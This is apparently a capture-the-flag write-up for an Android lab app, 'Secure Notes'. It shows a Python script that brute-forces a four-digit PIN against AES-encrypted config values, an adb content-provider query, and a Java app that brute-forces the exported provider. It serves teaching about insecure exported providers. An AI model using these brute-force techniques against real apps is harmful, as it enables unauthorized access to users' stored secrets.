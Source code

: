 #ctf #content-provider #python #adb #intents-extra #content-resolver #strings 
**Description**: Welcome to the **Secure Notes Challenge**! This lab immerses you in the intricacies of Android content providers, challenging you to crack a PIN code protected by a content provider within an Android application. It's an excellent opportunity to explore Android's data management and security features.

**Download**: https://lautarovculic.com/my_files/secureNotes.apk
**Link**: https://www.mobilehackinglab.com/path-player?courseid=lab-secure-notes

![[secureNotes.png]]

Install the **APK** with **ADB**
```bash
adb install -r secureNotes.apk
```

We can see that we need insert a **4 digit numbers PIN**.
Let's decompile it with **apktool**
```bash
apktool d secureNotes.apk
```

Also, let's check the **source code** with **jadx**.
Notice that the **directory that apktool** drop us, inside of `assets` directory, we have the `config.properties` file.
Which have this content:
```txt
encryptedSecret=bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=
salt=m2UvPXkvte7fygEeMr0WUg==
iv=L15Je6YfY5owgIckR9R3DQ==
iterationCount=10000
```

May be this can be cracked? :P
```python
import base64
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

# data
encrypted_secret = base64.b64decode("bTjBHijMAVQX+CoyFbDPJXRUSHcTyzGaie3OgVqvK5w=")
salt = base64.b64decode("m2UvPXkvte7fygEeMr0WUg==")
iv = base64.b64decode("L15Je6YfY5owgIckR9R3DQ==")
iteration_count = 10000

# decrypt
def decrypt_secret(password):
    try:
        # PBKDF2
        key = PBKDF2(password, salt, dkLen=32, count=iteration_count)

        # AES (CBC)
        cipher = AES.new(key, AES.MODE_CBC, iv)

        # decrypt
        decrypted = cipher.decrypt(encrypted_secret)

        # delete padding (PKCS7)
        pad = decrypted[-1]
        if all(p == pad for p in decrypted[-pad:]):
            return decrypted[:-pad].decode('utf-8')
    except (UnicodeDecodeError, ValueError):
        pass
    return None

# brute-force between 0000 and 9999
for i in range(0, 10000):
    password = f"{i:04d}"  # format numbers (eg. 0001, 1234)
    result = decrypt_secret(password)
    if result:
        print(f"[+] PIN: {password}")
        print(f"[+] Secret: {result}")
        break
    else:
        print(f"[-] Testing: {password}", end='\r')
```

Output:
```bash
[+] PIN: 2580
[+] Secret: CTF{D1d_********1t!1?}
```
This is so dirty.... let's hack as MHL want.

Let's move to **source code**.
The package name is `com.mobilehackinglab.securenotes`.
We have just **one activity** which is `com.mobilehackinglab.securenotes.MainActivity`.
Also, is exported.
Notice that we have an **Content Provider** (*Exported* & *Enabled*)
```XML
<provider  
    android:name="com.mobilehackinglab.securenotes.SecretDataProvider"  
    android:enabled="true"  
    android:exported="true"  
    android:authorities="com.mobilehackinglab.securenotes.secretprovider"/>  

<activity  
    android:name="com.mobilehackinglab.securenotes.MainActivity"  
    android:exported="true">  
    <intent-filter>  
        <action android:name="android.intent.action.MAIN"/>  
        <category android:name="android.intent.category.LAUNCHER"/>  
    </intent-filter>  
</activity>
```

We can see the **code** where this provider are implemented. Is an class named **`SecretDataProvider`**.
In the `onCreate()` method we can see the information that we was work with the **AES** decrypt method.

Useful code is
```java
if (selection == null || !StringsKt.startsWith$default(selection, "pin=", false, 2, (Object) null)) {
    return null;
}
String removePrefix = StringsKt.removePrefix(selection, (CharSequence) "pin=");
```

Problem:
- A `pin=` parameter is expected in the query, but no robust validation is performed on the value.
- An **attacker can send common pins or perform a brute force attack** directly.
- There is no mechanism for **rate limiting** (limit attempts per minute).

Also, we have a response
```java
MatrixCursor $this$query_u24lambda_u243_u24lambda_u242 = new MatrixCursor(new String[]{"Secret"});
$this$query_u24lambda_u243_u24lambda_u242.addRow(new String[]{secret});
```

Problem:
- *If the pin is correct*, the application **returns the secret in a response without any additional obfuscation** or validation.
- The attacker **receives the decrypted content directly**.

But, the **main problem** is that the **provider is exported** (as in `AndroidManifest.xml` can see).
This mean that **any app installed on device can make unlimited query**.

So, we have the uri:
`content://com.mobilehackinglab.securenotes.secretprovider`
How we can get this?
Simple, in **android manifest** or just **unzipping** the **apk** file, then, search for **strings** in the **`classes.dex`** files.
```bash
strings classes* | grep content://
```

We can run this **ADB** command
```bash
adb shell content query \
    --uri content://com.mobilehackinglab.securenotes.secretprovider \
    --where "pin=2580"
```
Notice that `--where` is because we have a *provider with selection* (mentioned in "useful code").

We can't **update**, **delete** or **insert** PINs because there aren't implementation if you look the code.
Also, check in the source code that the line
```java
String format = String.format("%04d", Arrays.copyOf(new Object[]{Integer.valueOf(Integer.parseInt(removePrefix))}, 1));
```
Clearly said that the PIN is between 0000 - 9999

This query can be **bruteforceable**.
But, let's make our **own** app.
The concept is simple, just make many query **until you match with the secret** `CTF{`
You can make a so **simple app**
```java
package com.lautaro.insecurenotes;

import android.database.Cursor;
import android.net.Uri;
import android.os.Bundle;
import android.util.Log;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {

    private static final String TAG = "secretPin";
    private static final String PROVIDER_URI = "content://com.mobilehackinglab.securenotes.secretprovider";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Init
        new Thread(this::bruteForcePin).start();
    }

    private void bruteForcePin() {
        Uri uri = Uri.parse(PROVIDER_URI);

        for (int i = 0; i < 10000; i++) {
            String pin = String.format("%04d", i);
            String selection = "pin=" + pin;

            try (Cursor cursor = getContentResolver().query(uri, null, selection, null, null)) {
                if (cursor != null && cursor.moveToFirst()) {
                    String result = cursor.getString(cursor.getColumnIndexOrThrow("Secret"));
                    Log.d(TAG, "Correct PIN!: " + pin + " | Secret: " + result);
                    break;
                }
            } catch (Exception e) {
                Log.e(TAG, "Error: " + pin, e);
            }
        }
    }
}
```

Or use some beautiful like the mine ;)

![[secureNotes2.png]]
**Download**: https://lautarovculic.com/my_files/insecureNotes-MHL.apk

I hope you found it useful (: